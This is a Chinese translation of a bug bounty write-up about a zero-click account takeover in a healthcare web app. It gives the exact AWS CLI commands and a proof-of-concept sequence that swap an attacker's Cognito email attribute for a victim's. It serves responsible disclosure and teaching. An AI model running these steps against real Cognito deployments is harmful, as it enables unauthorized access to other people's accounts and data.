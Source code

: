 # 黑客攻击 AWS 认知错误配置到零点击账户接管

> 原文：<https://infosecwriteups.com/hacking-aws-cognito-misconfiguration-to-zero-click-account-takeover-36a209a0bd8a?source=collection_archive---------0----------------------->

## 大家好，希望你们一切都好，保持安全。这个博客是关于我最近的账户接管的发现。

## 灵感

我正在浏览来自 Hackerone 的[黑客文章，并读到了令人惊讶的](https://hackerone.com/hacktivity) [Flickr 账户被接管](https://hackerone.com/reports/1342088)。感谢 Lauritz 的发现和一篇出色的博文。如果你没看过，这里是[这里是](https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/)。我还会在这篇文章的最后提供一些参考资料。

## 介绍

我正在测试一个与医疗保健相关的 web 应用程序。一些功能包括安排与医生的预约、订购药品、通过信息与网站内的医生互动等。这是一个经过认证的测试，提供了证书。

值得注意的是，电子邮件地址和其他细节不能从应用程序中更改，我们必须发送一个请求来支持任何更改。

登录应用程序后，我注意到登录请求被发送到 Amazon Cognito URL。如果你需要对登录有一个全面的了解，请浏览 Laurtiz 的博客或 Appseco 的博客。

![](img/a4709cb92ed4e15078c710e5b9169077.png)

图片摘自 [Appseco 博客。](https://blog.appsecco.com/exploiting-weak-configurations-in-amazon-cognito-in-aws-471ce761963)

因此，我测试的应用程序的登录流程如下。

*   登录该应用程序，一个 POST 请求被发送到 Amazon Cognito
*   如果凭证有效，Amazon Cognito 会提供代币。

```
HTTP/2 200 OK
Date: Thu, 32 Abc 2040 25:51:36 GMT
[...]{
    "AuthenticationResult":    
        {
            "AccessToken":"[REDACTED]",
            "ExpiresIn":3600,
            "IdToken":"[REDACTED]",
            "RefreshToken":"[REDACTED]",
            "TokenType":"Bearer"
        },
        "ChallengeParameters":
        {            
        }
}
```

*   接下来，该应用程序向 Amazon Cognito 发送请求以获取用户详细信息。具体来说，`X-Amz-Target: AWSCognitoIdentityProviderService.GetUser`头在 post 请求中与 AccessToken 一起发送。

```
POST / HTTP/1.1
Host: cognito-idp.eu-west-1.amazonaws.com
Referer: https://target
Content-Type: application/x-amz-json-1.1
**X-Amz-Target: AWSCognitoIdentityProviderService.GetUser** X-Amz-User-Agent: aws-amplify/0.1.x js
Origin: https://target
Content-Length: 1021
Connection: close{"AccessToken":"<AccessToken>"}
```

*   用户属性可以在响应中获得:

```
{
  "UserAttributes": [
    {
      "Name": "sub",
      "Value": "d7fdsfdfdsfdf9-4558b142bb58"
    },
    {
      "Name": "email_verified",
      "Value": "true"
    },
    {
      "Name": "given_name",
      "Value": "asddfdf"
    },
    {
      "Name": "family_name",
      "Value": "asdsddfdf"
    },
    {
      "Name": "email",
      "Value": "attacker@domain.com"
    }
  ],
  "Username": "sdfdsfdff8b142bb58"
}
```

## 剥削

登录后获得的 AccessToken 可以直接与 AWS-CLI 一起使用。按照 Lauritz 博客中的步骤，我们可以用下面的命令获取用户属性。

```
aws --no-verify-ssl cognito-idp get-user --region eu-west-1 --access-token <Insert Token Here>
```

用户属性可以在`update-user-attributes`的帮助下修改。我尝试添加新的属性，但是，这是不允许的。所以，我最初尝试改变现有的属性`given_name`，并且成功了。

```
aws --no-verify-ssl cognito-idp update-user-attributes --region eu-west-1 --access-token <Insert Token Here>  --user-attributes '**Name=given_name,Value=changed by AWS-CLI**'
```

在这之后，如果我获取用户属性，`given_name`确实被改变了。

现在是时候更改电子邮件了。以下是概念证明步骤

*   使用以下详细信息创建两个帐户

```
## Account 1
- email   : attacker@domain.com
- password: attackerRocks@!## Account 2
- email   : victim@domain.com
- password: victimaccount@!
```

*   作为攻击者登录并获取访问令牌。
*   使用访问令牌，通过 AWS CLI 将`email`更新为`victim@domain.com`

```
aws --no-verify-ssl cognito-idp update-user-attributes --region eu-west-1 --access-token <Insert Token Here>  --user-attributes '**Name=email,Value=victim@domain.com'**
```

*   电子邮件更改后，打开一个新窗口，用下面的详细信息登录，我们侵入了受害者的帐户。

```
email    - victim@domain.com
password - attackerRocks@!
```

*   如果您还没有发现这里的错误，我们已经成功地将我们的电子邮件更改为受害者的电子邮件，并使用攻击者的密码登录受害者的电子邮件。
*   成功利用此漏洞可以直接访问应用程序上的任何帐户，而无需受害者的任何干预。

## 应用的补丁

报告后不久，我就收到了补丁验证请求。现在，当我试图改变电子邮件，我们得到这个错误

```
An error occured (AliasExistsException) when calling the UpdateUserAttributes operation: An account with the given email address already exists.
```

现在，该应用程序不是盲目地改变电子邮件，而是检查该电子邮件是否有一个现有的帐户。

正如承诺的那样，这里有一些很酷的资源，可以用来学习如何入侵 AWS Cognito。

## 参考

*   [一个优秀的博客，他们在这里获得了 AWS 账户的管理员权限](https://notsosecure.com/hacking-aws-cognito-misconfigurations)
*   [AWS 认知安全的互联网规模分析](https://andresriancho.com/wp-content/uploads/2019/06/whitepaper-internet-scale-analysis-of-aws-cognito-security.pdf)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)